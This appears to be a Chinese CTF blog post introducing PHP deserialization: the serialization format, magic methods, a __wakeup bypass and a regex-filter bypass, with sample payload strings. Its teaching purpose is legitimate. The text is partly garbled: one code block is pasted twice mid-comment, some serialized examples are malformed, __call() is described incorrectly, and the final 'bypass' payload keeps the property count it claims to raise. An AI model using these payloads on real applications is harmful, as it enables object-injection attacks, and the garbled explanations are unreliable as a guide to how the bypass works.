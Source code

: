 ```yaml
---
title: 初识反序列化
date: 2022/9/15 12:00:00
cover: https://i.postimg.cc/NMWzHWLm/us1.jpg
categories:
- CTF
tags:
- web
- 反序列化
---
```


# 反序列化

## 序列化和反序列化的概念

在各类语言中，**将对象的状态信息转换为可储存或可传输的过程**就是序列化，而其逆过程就是反序列化

> bool : b:value => b:0
>
> int : i:value => i:1
>
> str : s:length:"value" => s:4:"aaaa"
>
> array : a:\<length>:{key,value pairs}; => a:1:{i:1,s:1:"a"}
>
> object : O:<class_name_legth>:
>
> NULL型 : N

而最终的序列化形式为 `<class_name>:<number_of_properties>:{<properties>};`

例如：

```
O:3:"Ctf":3{s:4:"flag";s:13:"flag{abedyui}";s:4:"name";s:7:"Sch0lar";s:3:"age";s:2:"18";}

O代表对象 因为我们序列化的是一个对象 序列化数组则用A来表示
3 代表类名字占三个字符 
ctf 类名
3 代表三个属性
s代表字符串
4代表属性名长度
flag属性名
s:13:"flag{abedyui}" 字符串 属性值长度 属性值
```

利用思路：PHP中存在魔法方法，可以自身调用

**常见的魔法函数：**

```php
__construct()   创建对象时调用
__destruct()    销毁对象时调用
__toString() 	当一个对象被当作一个字符串使用
__sleep() 		在对象在被序列化之前运行
__wakeup() 		将在序列化之后立即被调用
__call() 		反序列化恢复对象前调用
__get()  		从不可访问的属性读取数据
```

## 绕过__wakeup()

原理：**当序列化字符串表示对象属性个数的值大于真实个数的属性时就会跳过__wakeup的执行。**

```
//将上面的对象属性个数值改成逼真实个数打
O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
```

例：

```php
class xctf{
public $flag = '111';
public function __wakeup(){
exit('bad requests');
}
?code=
```

1. **\_wakeup()**是一个魔法方法，_wakeup()会**直接退出**，并输出" bad requests "

2. 末尾有"?code= " ，因此要构造url来绕过_wakeup()这个函数。

最后将其序列化：

```php
<?php
class xctf{
public $flag = '111';
public function __wakeup(){
exit('bad requests');
}}
//?code=
$a = new xctf();

//序列化数组
$s = serialize($a);
echo $s;
//输出结果：a:3:<?php
class xctf{
public $flag = '111';
public function __wakeup(){
exit('bad requests');
}}
//?code=
$a = new xctf();

//序列化数组
$s = serialize($a);
echo $s;
/*输出结果：
	O:4:"xctf":1:{s:4:"flag";}
	此时构造payload：O:4:"xctf":1:{s:4:"flag";s:3:"111";}
*/
?>
```

## 反序列化的绕过

- 绕过 `/[oc]:\d+:/i` 过滤，`/[oc]:\d+:/i` 会过滤 `O：d` 因此我们需要在之间加一个 `+` 以退出匹配来,例如 `O:+d`